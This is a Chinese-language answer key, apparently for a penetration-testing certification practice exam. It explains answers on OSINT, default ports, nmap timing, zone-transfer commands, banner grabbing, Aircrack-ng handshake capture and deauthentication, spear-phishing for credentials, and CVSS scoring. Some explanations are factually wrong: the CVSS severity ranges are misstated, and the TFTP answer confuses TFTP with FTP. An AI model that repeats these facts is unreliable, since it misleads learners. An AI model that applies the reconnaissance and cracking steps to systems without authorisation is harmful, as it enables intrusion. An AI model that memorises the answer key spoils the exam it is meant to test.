开源情报（`OSINT`）是指公开可获取且可被动收集的任何信息。因为是被动收集，所以不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是主动方法，潜入组织设施或从心怀不满的员工处套取信息也是主动方法。另一方面，从组织的 DNS 注册商收集信息或阅读组织网站上的招聘广告都是被动收集公开信息的例子。

## 15. A 和 E


开源情报（`OSINT`）是指公开可获取且可被动收集的任何信息。因为是被动收集，所以不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是主动方法，潜入组织设施也是主动方法。另一方面，组织网站上的招聘广告以及 `LinkedIn` 上现任员工的简历都是公开信息的例子。通过查看这两个来源，你可能确定组织部署了什么类型的系统。

## 16. B 和 C

`whois` 工具可用于从公共记录中收集域名所有权信息。`recon-ng` 实用程序是一个模块化的 Web 侦察框架，用于组织和管理 `OSINT` 信息。

## 17. A

`whois` 工具可用于从公共记录中收集域名所有权信息。在本题所示的示例中，你可以了解到该域名的注册商是谁、拥有该域名的组织名称、组织地址、组织电话号码、管理该域名的员工姓名以及该员工的电子邮件地址。

## 18. B

`nslookup` 实用程序可用于将域名解析为其关联的 IP 地址。

## 19. D

`recon-ng` 实用程序提供了一个 Web 侦察框架，允许你在 Web 上对组织进行开源侦察。在该示例中，显示了与指定域名关联的所有面向公众的服务器及其 IP 地址。

## 20. B

`SMTP` 邮件中继服务的默认端口是 25 端口。大多数 Linux 发行版使用诸如 `sendmail` 之类的邮件守护进程进行内部消息传递。然而，它也可以通过 `SMTP` 在 25 端口上通过网络发送消息。通常，在面向公众的服务器上，此端口会被防火墙阻断，以防止守护进程被垃圾邮件发送者用于未经授权的邮件中继。偶尔，你可能会发现有人打开了 25 端口却忘记关闭，导致主机变得脆弱。

## 21. D

使用直接 TCP 连接的 `SMB/CIFS` 服务的默认端口是 445 端口。`SMB/CIFS` 协议用于文件共享，因此相关主机必定是一台文件服务器。

## 22. C

`Telnet` 服务的默认端口是 23 端口。`Telnet` 用于通过命令行界面远程管理系统。`Telnet` 是一种非常古老且不安全的协议。`Telnet` 服务器和客户端之间传输的所有信息均为明文，包括认证信息。通过嗅探该主机 23 端口的进出流量，你可能捕获到用户名和密码。

## 23. B

`FTP` 服务使用的默认端口是 20 和 21 端口。`FTP` 用于通过网络连接在主机之间传输文件。`FTP` 是一种非常古老且不安全的协议。`FTP` 服务器和客户端之间传输的所有信息均为明文，包括认证信息。通过嗅探该主机 20 和 21 端口的进出流量，你可能捕获到用户名和密码。

## 24. D

`TFTP` 服务使用的默认端口是 69 端口。`TFTP` 提供了一种在主机之间通过网络连接快速简便地传输文件的方式。与 `FTP` 不同，`TFTP` 使用无连接的 `UDP` 传输层协议而不是 `TCP`。缺乏确认机制使得 `TFTP` 服务器传输文件的速度比 `FTP` 服务器快。然而，`TFTP` 是一种不安全的协议。`FTP` 服务器和客户端之间传输的所有信息均为明文。此外，`TFTP` 不提供认证连接的机制。因此，任何人都可以连接到该服务并在无需提供认证凭据的情况下传输文件。

## 25. A

Windows 域控制器托管许多与域相关的服务。因此，大多数域控制器将开放许多端口。大多数将包括以下内容：

*   端口 88：用于 `Kerberos` 认证。
*   端口 135：用于域控制器与客户端之间以及域控制器之间的通信。
*   端口 138 和 139：用于域控制器之间的文件复制。
*   端口 389：用于 `LDAP` 查询。
*   端口 445：用于 `SMB/CIFS` 文件共享。
*   端口 464：用于 `Kerberos` 密码修改。
*   端口 636：用于安全 `LDAP` 查询。
*   端口 3268 和 3269：用于全局目录通信。
*   端口 53：用于 `DNS` 域名解析。

## 26. D

`IMAP` 服务的默认端口是 143 端口。`IMAP` 协议被邮件服务器用于在邮件服务器和邮件客户端之间传输消息。

## 27. C

`SSH` 服务的默认端口是 22 端口。`SSH` 协议用于通过命令行界面远程管理系统。与 `Telnet` 不同，`SSH` 使用加密来保护认证凭据以及客户端和服务器之间传输的数据。

## 28. D

Web 服务器使用的默认端口是 80（`HTTP`）和 443（`HTTPS`）。在 80 端口上传输的数据通常是明文，而在 443 端口上发送的数据则使用 `SSL/TLS` 进行加密。

## 29. A

`LDAP` 服务器使用的默认端口是 389（不安全）和 636（安全）。`LDAP` 协议用于查询符合 `LDAP` 标准的目录服务器，例如 `Active Directory` 或 `eDirectory`。由于在 389 端口上发送的目录信息未加密，嗅探此端口上的流量可能会泄露用户账户信息。

## 30. D

`DNS` 服务器使用的默认端口是 53 端口。`DNS` 服务用于将主机名解析为 IP 地址（反之亦然）。如果 `DNS` 服务器安全配置不当，你可能会攻破它并污染查找表，从而将合法的域名解析请求重定向到一个伪造的目标主机，在那里可以对客户端系统实施各种攻击。

## 31. A

`traceroute` 命令输出中的 `***` 字符表示该特定跳数的路由器处于运行并转发流量状态，但不允许响应 `traceroute` 命令使用的 ping 探测包。

## 32. C 和 D

该域名关联了一台 Web 服务器。它配置为在 80 端口使用 `HTTP` 协议（不安全）和在 443 端口使用 `HTTPS` 协议（安全）。

### 33

**D 和 E。** 在此示例中，该组织的 SSL/TLS 证书是使用 `SHA256` 加密哈希函数签名的。此外，可以看出该组织使用 `IIS` Web 服务器，该服务器运行在 `Windows Server` 之上。

### 34

**A。** 在此示例中，显示“250 2.1.5 Recipient OK”的那一行表明这是目标组织域内的一个有效电子邮件地址。但是，它并不揭示该地址属于谁。你只知道这是一个合法的电子邮件。要在渗透测试中使用它，你首先需要将其与公司高管名单进行交叉比对，此类名单有时可在组织的网站上找到。

### 35

**B。** 在此示例中，显示“250 2.1.5 Recipient OK”的那一行表明这是目标组织域内的一个有效电子邮件地址。因为这是一个有效的电子邮件地址，所以你现在知道该组织极有可能使用 `first_initial`+`lastname`@`company_name`.com 这种电子邮件命名约定。利用此信息，你可以参考组织的高管简介网页，为其所有管理团队成员构建电子邮件地址。

### 36

**D。** 在此示例中，输出告诉我们邮件服务器响应 `SMTP HELO` 命令。有时可以使用 `HELO` 命令从邮件服务器获取有用信息。

### 37

**A 和 D。** 枚举过程涉及连接到网段上发现的每个主机并识别关键信息，包括每个主机正在运行的服务以及已安装操作系统的版本号。

### 38

**D。** 枚举过程涉及连接到网段上发现的每个主机并识别关键信息。在此示例中，请注意该设备的操作系统类别如下：

*   类型：`WAP`
*   厂商：`Belkin`
*   操作系统系列：`Embedded`

根据这些信息，你可以合理地推断该设备是一个无线接入点。

### 39

**B。** 在“使用的端口”下，请注意设备上的端口 `80 TCP` 是开放的。这表明它极有可能正在运行一个 `HTTP` Web 服务器。

### 40

**A**。通过在互联网上搜索“操作系统”下显示的操作系统版本号，你很有可能发现该设备使用的默认管理用户名和密码。过去几年中，几起高调的漏洞利用事件之所以得逞，是因为系统实施者未能更改网络基础设施设备使用的默认用户名和密码。

### 41

**C。** 请注意，Hostnames > Name 下设备的主机名以 `android` 开头。由此，你可以合理地推断该设备极有可能是运行 `Android` 操作系统的移动电话或平板电脑。

### 42

**C。** 请注意，该设备正在运行 `Windows Server 2012`，并且端口 `53` 是开放的，这是 `DNS` 服务器的默认端口。因此，合理推断该服务器是一个域控制器。Windows 服务器上的 `Active Directory` 角色需要 `DNS` 虽然 `DNS` 角色可以位于不同的成员服务器上，但 `Active Directory` 几乎总是安装在与 `DNS` 角色相同的服务器上。

### 43

**E。** 此问题中列出的任何回答都无法从 `Zenmap` 中显示的信息中合理推断出来。你知道它是一台 `Windows` 服务器，极有可能是一个域控制器，但根据给定的信息无法推断出更多内容。

### 44

**A。** Banner 抓取是使用诸如 `Telnet` 客户端或 `Ncat` 之类的实用程序手动连接到设备（如 Web 服务器）的过程，并利用显示的信息对设备进行指纹识别。

### 45

**B 和 D。** 在此示例中，该设备在端口 `80` 和 `443` 上运行 Web 服务器。端口 `515`、`631` 和 `9100` 均用于提供网络打印服务。

### 46

**C。** 在此示例中，你需要在 `Linux` 系统的 Shell 提示符下输入 `telnet 10.0.0.1 80` 以抓取目标 Web 服务器的 Banner。

### 47

**C 和 E。** 在此示例中，你知道该设备正在运行 `Apache` Web 服务器。还请注意，该设备的名称为“Untangle Server”。通过在互联网上搜索，你可以了解到 `Untangle` 销售用于管理进出网络流量的安全设备。因此，你可以合理地假设该设备是该公司的安全设备。

### 48

**B。** 此示例中的设备极有可能是一台 `Windows` 工作站。这一点可以从该系统上开放了默认的 `SMB/CIFS` 文件共享端口得到证明。

### 49

**C。** 此示例中的设备极有可能是运行在 `Windows Server` 上的域控制器。这一点可以从该系统上开放了默认的 `DNS` 服务器、`LDAP` 和 `Kerberos` 端口得到证明。

### 50

**C 和 D。** 此示例中的设备稍难分析。你可以清楚地看到它正在运行一个 `DNS` 服务器和一个 Web 服务器。然而，此处显示的信息不足以推断出更多内容。一种可能性是它是一个无线路由器，包含一个仅缓存的 `DNS` 服务器和一个嵌入式 Web 服务器，用于配置和管理该设备。不过，需要更多信息才能做出此判断。

### 51

**A。** `sslyze` 工具是一种渗透测试工具，常用于执行证书检查。

### 52

**B 和 C。** 此示例中 `sslyze` 命令的输出显示，Web 服务器响应了 `TLSv1_1` 和 `TLSv1_2` 查询，但未响应 `SSLv2`、`SSLv3` 或 `TLSv1` 查询。

### 53

**A 和 C。** 你可以使用 `tcpdump` 或 `Wireshark` 在有线网络上捕获数据包。两者中，`Wireshark` 通常被认为具有最友好的用户界面。

### 54

**A。** `Aircrack-ng` 实用程序可用于发现范围内的无线网络，然后破解其加密。此过程对于旧的 `WEP` 网络非常快，对于 `WPA` 网络较难但可行，对于 `WPA2` 网络则相当具有挑战性。

### 55

**A。** 在无线网络接口可用于捕获无线网络流量之前，必须将其配置为在发射接入点使用的特定信道上运行监听模式。

### 56

**A。** 在使用 `Aircrack-ng` 破解无线网络加密之前，必须先在发射接入点使用的特定信道上运行 `airodump-ng` 实用程序以收集认证握手包。

### 57

**B。** 在使用 `Aircrack-ng` 破解无线网络加密之前，必须先在发射接入点使用的特定信道上运行 `airodump-ng` 实用程序以收集认证握手包。然后，你需要通过运行 `aireplay-ng` 实用程序来使无线客户端去认证。

### 58

**B。** 在有线网络上捕获数据包之前，你的网络接口必须配置为运行在混杂模式。否则，它将丢弃所有接收到的、未专门寻址到其地址的帧。

### 59

**D。** 问题在于网络使用的是交换机而不是集线器。交换机会学习连接到每个交换机端口的每个网络接口的 `MAC` 地址。它仅将帧传输到目标网络接口所连接的特定端口。因此，你的笔记本电脑永远看不到传输给网络上任何其他主机的帧。

## 60. D

此处的问题是网络使用的是交换机而非集线器。交换机会学习连接到每个交换机端口的每个网络接口的 `MAC` 地址。它仅将帧传输到目标网络接口所连接的特定端口。因此，您的笔记本电脑永远看不到发送给网络上其他主机的帧。虽然理论上您可以将网络交换机换成集线器，但您的客户可能不允许您这样做。最好的选择是将笔记本电脑连接到交换机的镜像端口。镜像端口包含发送给所有其他交换机端口的帧的副本。这使您的笔记本电脑能够看到发往其他主机的帧。不过，在这样做之前，您需要确保这在测试的交战规则中是被允许的。

## 61. A

在这种情况下，您可以尝试的一种方法是反编译应用程序的可执行文件。此过程将显示应用程序的汇编级代码，您可以分析这些代码以查找弱点。

## 62. B

大多数反编译器生成的是汇编级源代码，而非 C++ 代码。要使这些信息有用，您需要具备丰富的汇编语言代码处理经验。通常，这将要求您聘请一位在汇编编程方面有深入了解的顾问。

## 63. B

调试器允许您在应用程序执行时对其进行分析。通常，您可以逐步暂停应用程序的执行，或允许其运行直到到达代码中的特定点。这样做可能会让您识别出可作为渗透测试一部分加以利用的漏洞。但是，要有效地做到这一点，您必须具备扎实的编程或应用程序测试背景。

## 64. A

美国政府的计算机应急响应小组（CERT）维护着一个网站：`http://www.us-cert.gov`，其中包含定期更新的、目前向 CERT 报告的最频繁、影响最大的安全事件类型摘要。

## 65. B

JPCERT 是日本政府版的美国政府计算机应急响应小组（CERT）。JPCERT 维护着一个网站：`https://www.jpcert.or.jp/english/`，提供当前安全警报和通报的动态摘要。

## 66. D

国家漏洞数据库（NVD）由美国政府的国家标准技术研究院维护。可通过 `https://nvd.nist.gov` 访问 NVD。该网站提供按严重程度排名的当前安全漏洞摘要。

## 67. C

通用漏洞披露（CVE）数据库是一个社区开发的资源，可通过 `http://cve.mitre.org` 访问。CVE 数据库包含一个公开已知的网络安全漏洞列表。每当世界上任何地方的供应商发现其产品存在漏洞时，都会向 CVE 数据库添加一个条目。其目标是创建一个所有人都可以使用的通用资源，而不是让每个供应商单独维护仅包含其产品相关漏洞的数据库。

## 68. C

通用弱点枚举（CWE）数据库是一个社区开发的资源，可通过 `http://cwe.mitre.org` 访问。CWE 数据库包含一个与软件通用相关而非特定产品的公开已知网络安全漏洞列表。

## 69. D

通用攻击模式枚举与分类（CAPEC）数据库是一个社区开发的资源，可通过 `http://capec.mitre.org` 访问。CAPEC 数据库包含常用网络攻击模式的目录。

## 70. B

Full Disclosure 是由生成 `nmap` 实用程序的同一组织发布的开源研究来源。可通过 `www.seclists.org/fulldisclosure` 访问。

## 71. D

本题列出的每个开源研究来源都可能包含可用于查找旧版 IIS Web 服务器软件已知漏洞的信息。

## 72. A

CERT 数据库包含软件和硬件供应商发布的最新安全更新信息，以及这些更新旨在解决的漏洞描述。

## 73. A

CAPEC 数据库包含用于利用弱点的已知攻击模式信息，包括物理安全漏洞。

## 74. D

国家漏洞数据库（NVD）网站提供按严重程度排名的当前安全漏洞摘要。

## 75. A

通用漏洞披露（CVE）数据库是一个社区开发的资源，包含公开已知的网络安全漏洞列表。每当世界上任何地方的供应商发现其产品存在漏洞时，都会向 CVE 数据库添加一个条目。您可以在 CVE 网站上搜索有关 Server 2003 SP2 的信息。

## 76. A

凭证漏洞扫描要求您首先向网络进行身份验证，最好使用管理级别的帐户。由于使用了管理凭证，这种类型的扫描最接近内部管理员的视角。

## 77. B

非凭证漏洞扫描是在不向网络进行身份验证的情况下执行的。因此，非凭证扫描最接近外部黑客的视角。

## 78. A

凭证漏洞扫描要求您首先向网络进行身份验证，最好使用管理级别的帐户。由于使用了管理凭证，这种类型的扫描通常能识别出最多的漏洞。

## 79. B

非凭证漏洞扫描是在不向网络进行身份验证的情况下执行的。因此，非凭证扫描通常识别出的漏洞数量最少。

## 80. A

Ping 扫描是发现扫描的一个示例。Ping 扫描的目标不是详细询问每个系统，而只是识别网络上每个可达系统的存在。

## 81. A

发现扫描旨在仅绘制目标网络上每个系统的图谱。因此，它使用非常非侵入性的机制（如 ping）来枚举网络。

## 82. B

完全扫描会详细询问目标网络上发现的每个主机。因为它使用侵入性方法来执行此操作，所以完全扫描通常会被 IDS 或 IPS 设备快速检测到（并可能被阻止）。

## 83. A

发现扫描旨在使用非常非侵入性的机制（如 ping）来枚举网络，仅绘制目标网络上每个系统的图谱。因此，这种类型的扫描最不可能被 IDS 或 IPS 设备检测到。

## 84. B


完全扫描使用侵入性方法详细询问目标网络上发现的每个主机。完全扫描通常会被 `IDS` 或 `IPS` 设备快速检测到（并可能被阻止）。因此，完全扫描更有可能被防御者用来彻底测试其网络。渗透测试人员不太可能使用完全扫描，因为它会被快速检测到。例外情况是白盒测试，此时所有人都已预期渗透测试人员将运行漏洞扫描。

## 85. C

隐蔽扫描通过向目标网络上的主机发送 `SYN` 数据包来枚举主机。如果收到 `SYN-ACK`，则扫描器知道目标主机存在。`SYN-ACK` 还包含可被扫描器捕获和分析的有关主机的有限信息。

## 86. C

隐蔽扫描通过操纵 TCP 三次握手来枚举目标网络上的主机。首先，它向目标发送一个 `SYN` 数据包。如果收到 `SYN-ACK`，则扫描器知道目标主机存在。`SYN-ACK` 还包含可被扫描器捕获和分析的有关主机的有限信息。

### 87. D

隐蔽扫描通过操纵 TCP 三次握手来枚举目标网络上的主机。首先，它向目标发送一个 `SYN` 数据包。如果收到 `SYN-ACK`，则扫描器知道目标主机存在。扫描主机不会通过向目标发送 `ACK` 数据包来完成连接，而是通过发送 `RST` 数据包来重置连接。

### 88. A

目前隐蔽扫描不再像过去那样隐蔽。大多数现代 `IDS/IPS` 设备都能检测到隐蔽扫描期间网络上异常高频的 `RST` 数据包，并采取相应措施。例如，`IDS` 可以生成警报。`IPS` 可以生成警报，还可以阻止来自扫描主机的流量。

### 89. B

由于在完全漏洞扫描期间与每台主机都建立了完整连接，因此可以对其进行彻底的询问和指纹识别。因此，完全扫描通常能产生最准确的信息。然而，它们也是最容易被防御者检测到的。

### 90. D

合规性漏洞扫描用于验证目标组织是否符合特定法律或政策的要求。在本例中，`PCI-DSS` 渗透测试通常需要进行 `PCI-DSS` 合规性漏洞扫描。

### 91. D

在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能想要枚举网络上的所有子网、主机和域。

### 92. D

在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能想要枚举所有可发现的用户和组账户。您还需要枚举所有可识别的网络共享。

### 93. E

在白盒渗透测试期间枚举目标网络时，您可能会收集大量信息。例如，您可能想要枚举网络上使用的所有网页、应用程序、服务和令牌。

### 94. C

将扫描限速以使用最小带宽会大大减慢扫描过程。但是，这也会使扫描对 `IDS/IPS` 设备的可见性降低，并给它们留出时间更彻底地对网络设备进行指纹识别。

### 95. B

通过将扫描计划在很少人上班的时间段运行，您可以最大限度地减少对生产流量可用网络带宽的影响，也可以避免被内部网络管理员发现。

### 96. C

没有管理凭据并不意味着您必须放弃枚举和指纹识别，也不意味着您必须取消测试。相反，您可以尝试制作一份鱼叉式网络钓鱼攻击载荷，诱骗内部用户泄露其登录凭据。

### 97. C

因为您只扫描 Web 服务器，所以可以将漏洞扫描限制在 Web 服务器常用的端口和协议上。对所有端口和协议进行彻底扫描将花费更长的时间。

### 98. A and C

从网络拓扑角度来看，`PCI-DSS` 标准要求您从内部和外部网络位置运行漏洞扫描。应比较两次扫描的结果以识别漏洞。

### 99. A

`nmap –T*n*` 选项用于指定时序模板，其中 *n* 是 0 到 5 之间的数字。数字越大，漏洞扫描越快。数字越小，扫描越慢。

### 100. C

由于 `T1` 线路限制为 1.54 Mbps，您必须限制漏洞扫描使用的带宽。如果不这样做，您很容易占用所有可用带宽，而不留任何带宽给关键业务操作。您可以使用带有 `nmap` 命令的 `–T*n*` 选项来降低扫描速度。由于连接带宽较低，您应该考虑对 `nmap` 命令使用 `–T2` 甚至可能是 `–T1` 选项。`–T0` 选项可能会过度限制扫描速度，导致完成扫描所需的时间过长。

### 101. C

因为该服务器被视为脆弱系统，您应该限制漏洞扫描使用的带宽。如果不这样做，您很容易用扫描消耗服务器的所有资源，而不留任何资源给关键业务操作。您可以使用带有 `nmap` 命令的 `\-Tn` 选项来降低扫描速度。在此场景中，您应该考虑对 `nmap` 命令使用 `–T2` 甚至可能是 `–T1` 选项。`–T0` 选项可能会过度限制扫描速度，导致完成扫描所需的时间过长。

### 102. A and E

容器可用于创建隔离环境，非常类似于虚拟机。因此，在容器环境中运行的任何应用程序可能无法被传统漏洞扫描检测到。与虚拟机不同，容器与容器主机共享大量基础操作系统。因此，容器主机基础操作系统相关的漏洞可能会被其容器继承。

### 103. A

静态代码分析是通过分析应用程序的源代码来进行的。显然，这种类型的测试通常仅在白盒渗透测试期间执行。静态代码分析不涉及实际运行程序。相反，它专注于分析应用程序是如何编写的。

### 104. B and C

动态代码分析和模糊测试都是在运行中的代码上执行的。因为不需要源代码即可执行这些测试，所以它们可以在灰盒或黑盒渗透测试期间执行。

### 105. B

模糊测试涉及向应用程序的输入发送随机、意外或无效的数据，以测试其如何处理这些数据。这称为*异常处理*。许多攻击可以利用应用程序无法正确处理意外数据的弱点来部署。

### 106. C

支持 Web 的电视机是非传统系统的一个例子。这些设备被认为是脆弱的，因为它们难以用传统方式管理，并且供应商可能不频繁更新它们。供应商也可能未对其进行广泛的安全测试。

### 107. B

计算机控制的制造设备是非传统系统的例子。这些设备被认为是脆弱的，因为它们难以用传统方式管理，并且供应商可能不频繁更新它们。供应商也可能未对其进行广泛的安全测试。

### 108. A and B

`dig axfr @nameserver target_domain` 或 `host -t axfr target_domain nameserver` 命令均可用于执行区域传送。如果成功，您可以收集到目标网络内所有网络基础设施主机的相当详细的列表。理想情况下，目标组织已在其 `DNS` 服务器上禁用了未经身份验证的区域传送。如果是这种情况，上述任一命令将返回某种“传送失败”错误消息。

### 109. A

`hping` 实用程序是渗透测试人员常用的数据包构造工具。它允许您创建几乎任何类型的数据包并将其发送到目标网络上的指定主机。分析主机的响应方式可以为渗透测试的下一阶段提供有价值的信息。

### 110. A and C

拥有目标组织用户的电子邮件地址列表，您可以实施任意数量的网络钓鱼攻击。您还可以使用电子邮件地址来枚举内部用户账户名。在许多（如果不是大多数）组织中，电子邮件用户名几乎总是与用户的账户名相同。

### 111. B

该主机最有可能运行的是 Windows。TCP 端口 `139`、`445` 和 `3389` 通常都用于 Windows 文件共享服务。虽然这些端口也可能用于其他操作系统（例如运行 SMB 守护进程的 Linux 系统），但更有可能是 Windows 主机。

### 112. D

该主机很可能是一台 Web 服务器。系统管理员可能已将默认的 Web 服务器端口更改为非标准端口，试图隐藏其功能。这是“通过隐匿实现安全”的一个例子。

### 113. C

`-T` 选项配置 nmap 运行漏洞扫描的速度。在此场景中，子网可能非常大，拥有超过 1600 万个可能的 IP 地址。在如此大的子网上使用 `-T0` 选项运行 nmap 将花费很长时间才能完成。

### 114. A

Whois 可能会泄露关于目标组织的大量信息，包括以下内容：

*   域名注册商
*   注册人的法定名称
*   注册人的地址
*   注册人的电话号码
*   联系邮箱地址
*   域名管理员的姓名
*   有些组织会要求其注册商对公众隐藏这些信息。

### 115. C

在此场景中，正在运行黑盒渗透测试。根据定义，测试人员位于目标网络之外。因此，她必须先攻破一台内部主机。完成后，她可以利用它作为跳板来扫描其他内部主机。

### 116. D

SCADA 制造设备往往比传统网络资产（如服务器和路由器）脆弱得多。它们往往难以管理、更新和防范漏洞利用。因此，它们也容易受到漏洞扫描的影响，并在扫描过程中离线。

### 117. A

您能够最有效地运行漏洞扫描的时间窗口，很大程度上受到合规要求、高峰流量时段和硬件限制的影响。另一方面，内部 IT 员工极不可能参与渗透测试期间的漏洞扫描运行。

### 118. B

在此场景中，正在进行静态代码分析（也称为 `源代码分析`）。在该类型的测试中，测试人员访问应用程序的源代码并对其进行审查，以查找可能被利用的弱点。显然，测试人员必须具备扎实的编程背景才能进行此类审查。

### 119. A

模糊测试是指测试人员向应用程序的输入发送随机的、意外的信息，以查看其响应方式。例如，测试人员可以尝试发送包含可执行代码的过大输入来执行缓冲区溢出攻击。如果应用程序未能妥善处理恶意输入，则可能将可执行代码存储在目标系统的内存中，从而使攻击者能够执行它。

### 120. C

因为这是一台任务关键型服务器，所以在扫描实时系统之前，最好先在实验室环境中运行测试扫描。这将帮助测试人员在对实时系统运行扫描之前评估扫描的影响。

### 121. C

服务器管理员未续订其安全证书这一事实表明，他们并未太关注这台服务器。这会使该系统成为易于攻破的目标，因为管理员可能也忽略了其他因素（如更新）。

### 122. E

漏洞扫描期间收集的信息可以通过多种不同方式进行分类。例如，基于操作系统对信息进行分类可能是合适的，因为不同的操作系统具有不同的固有漏洞。基于每个关联资产的价值对信息进行分类也可能是合适的。例如，与任务关键型数据库服务器相关的漏洞，其价值远高于与最终用户桌面系统相关的漏洞。您还可以根据发现的漏洞数量或严重程度对扫描结果进行分类。

### 123. A

最有可能是漏洞扫描器生成了误报错误。漏洞扫描后进行裁决过程的目的是确定扫描结果的价值和有效性。像本场景中讨论的这种误报，应在提交给客户的最终报告中过滤掉。

### 124. A 和 D

在此场景中，攻破易受攻击的域控制器或数据库服务器的价值，远高于攻破最终用户的易受攻击工作站的价值。例如，攻破域控制器可能会暴露多个用户账户。同样，攻破数据库服务器可能会暴露有价值的公司信息。另一方面，缺少 Windows 功能更新造成的风险可能微乎其微。同样，即使是较旧的发行版，Linux 也提供了相对较高的系统安全性。

### 125. A

任何低于 `4.0` 的 CVSS 评分均被视为低风险类别。因此，CVSS 评分 `3.8` 表明这是一个低风险漏洞。

### 126. D

任何 `10.0` 或更高的 CVSS 评分均被视为严重风险类别。因此，CVSS 评分 `10` 表明这是一个严重漏洞。

### 127. B

任何介于 `4.0` 和 `6.0` 之间的 CVSS 评分均被视为中等风险类别。因此，CVSS 评分 `5.3` 表明这是一个中等风险漏洞。

### 128. C

任何介于 `6.0` 和 `10.0` 之间的 CVSS 评分均被视为高风险类别。因此，CVSS 评分 `7.2` 表明这是一个高风险漏洞。

### 129. B 和 C

您针对缺失更新这一共同主题的首要响应，应是调查这是否会造成任何您稍后可在渗透测试中利用的漏洞。然后，您应记录缺失更新这一共同主题，以便客户更新其最佳实践，确保系统保持最新状态。

### 130. A

您针对过时服务器这一观察的首要响应，应是调查这是否会造成任何您稍后可在渗透测试中利用的漏洞。然后，您应在最终报告中建议客户升级其服务器。

### 131. A 和 B

您针对客户缺乏最佳实践的首要响应，应是在渗透测试后期利用具有默认用户名和密码的设备。然后，您应在最终报告中建议客户采用更好的最佳实践。

### 132. A 和 D

您无需购买 Windows 系统，只需在 Linux 系统上创建漏洞利用代码，然后交叉编译代码，使其能在 Windows 系统上运行即可。有多种 Linux 实用程序可供您完成此操作。

### 133. B 和 D

在此场景中，您首先将扫描中发现的漏洞映射到可能的漏洞利用代码。然后修改这些漏洞利用代码，使其适用于较旧的服务器操作系统。

### 134. C

在此场景中，您将多个漏洞利用代码链接在一起以攻破目标系统。这被称为 `漏洞利用链`。

### 135. B

在此场景中，您需要在实际攻击目标服务器之前测试修改后的漏洞利用代码，以确保其有效且没有意外后果。一种有效的方法是利用您的枚举信息，在实验室环境中将目标系统重现为虚拟机，并测试修改后的漏洞利用代码。此过程称为 `概念验证开发`。

### 136. A 和 C

在此场景中，您利用欺骗和社会工程学手段访问了目标组织的物理网络。

### 137. C

凭据暴力破解是指一个接一个地尝试密码，直到最终碰到正确的密码为止。此过程可针对用户账户执行，也可针对其他安全系统执行，例如使用预共享密钥的 WPA2 无线网络。

### 138. D

字典攻击是暴力破解攻击的一种类型。然而，在字典攻击中，会依次使用一份常用密码列表，试图找到正确的密码。

### 139. A

彩虹表包含一份常用密码哈希值的预计算列表，可用于离线密码文件破解。

### 140. A 和 B

工业控制系统 (ICS) 和数据采集与监视控制系统 (SCADA) 常用于工厂自动化设备和环境控制中。它们往往运行在较旧的操作系统上，且其软件/固件更新频率极低。这会使此类系统更容易受到安全漏洞利用。它们通常也相当脆弱，因此使用漏洞扫描器扫描时务必小心谨慎。

### 141. B 和 E

移动设备代表了现代网络中一个重大的安全弱点。在与移动设备相关的众多问题中，渗透测试人员应知晓其中两点：它们往往以不一致的方式进行更新。对于 Apple 设备，这不太成问题，因为它们掌控硬件和软件。然而，这对 Android 设备而言是一个重大问题。如果你检查一组 Android 设备的更新级别，很可能找不到两个相同的。此外，一些用户会对设备进行 Root 或越狱，以便在官方应用商店渠道之外安装应用。这使得这些设备易受恶意软件感染。

### 142. D 和 E

物联网设备（如智能家电、电视等）往往拥有最薄弱的固有安全性。它们在设计时未考虑安全性，难以管理，且供应商极少发布安全更新。工业控制设备中使用的嵌入式设备往往也存在相同的弱点。

### 143. C 和 D

在此场景中，POS 系统面临的最大风险是它们暴露在互联网上，且运行着不受支持（因此极其脆弱）的操作系统。客户应将 POS 系统隔离在其自己的子网中，使其远离互联网。他们还应升级硬件和软件到较新版本，以消除运行古老操作系统带来的风险。

### 144. A

与生物识别指纹阅读器相关的最大安全风险在于，它们可能被伪造的指纹所欺骗。在几年前的电视节目《流言终结者》(*MythBusters*) 一集中，演员们通过从杯子上提取授权用户的指纹，成功欺骗了指纹阅读器。在此场景中，你或许应该建议客户升级到人脸识别认证系统，因为该系统已被证明更难被欺骗。

### 145. A

物联网指连接互联网的物理产品和设备组成的网络。制造商和开发商希望将成本降至最低以增加利润。因此，安全性往往不是产品或设备的关键特性。所以，与网络上的任何其他设备一样，物联网设备可能存在安全漏洞，并可能遭受基于网络的攻击。

### 146. D

端口 21 用于 TCP 和 FTP，作为控制端口。端口 80 用于 TCP 和 HTTP，用于传输网页。端口 443 用于 TCP 和 HTTPS，即基于 TLS/SSL 的 HTTP，用于加密传输。

在此场景中，渗透测试人员发现的所有端口都与 Web 相关。因此，该问题的答案是：敏感信息可能在 Web 服务器上泄露，因为这些是在漏洞扫描期间指示出的端口。

### 147. B

发现扫描可识别网络上运行的操作系统，将这些系统映射到 IP 地址，并枚举这些系统上的开放端口和服务。发现扫描为渗透测试人员提供了一种自动化方式，以识别网络上存在的主机并构建资产清单。

### 148. D

凭据扫描需要对目标服务器拥有只读访问权限。客户应遵循最小权限原则，限制测试人员可用的访问权限。你应考虑要求创建一个具有类似只读访问权限的专用“审计”账户。专用“审计”账户的优势在于会出现在日志中，并被 IT 部门的所有人立即识别为潜在的批准活动。

### 149. D

代码测试通常使用静态或动态代码分析，结合模糊测试和故障注入等测试方法进行。一旦对代码进行更改并部署，必须重新测试以确保更改未引入任何新的安全问题。由于在此场景中我们仅审查代码，因此将进行静态代码分析。静态代码分析（也称为源代码分析）是通过审查应用程序的代码来完成的。由于静态分析使用源代码，它可被视为一种拥有完全可见性的白盒测试类型。这能让测试人员发现其他测试可能无法察觉的问题。

### 150. B

`Dsquery.exe` 是一个命令行实用程序，用于查找 Active Directory 域中各种对象的信息。该实用程序在所有 Windows Server 版本中默认可用。`dsquery` 命令允许你查询 LDAP 目录，以查找符合指定条件的对象。作为 `dsquery` 命令的一个属性，你需要指定要搜索的 AD 对象类型。在此场景中，你要查找过去 30 天内处于非活动状态的用户账户，因此你会使用 `dsquery user -inactive < NumWeeks >`。

### 151. D

项目的时间表以及测试可执行的时间，将对在高峰时段观察和测试客户系统产生最大影响。某些评估会安排在非关键时间段，以最大程度减少潜在中断的影响；而另一些可能会安排在正常工作时间，以帮助测试组织对攻击的响应能力。

### 152. D

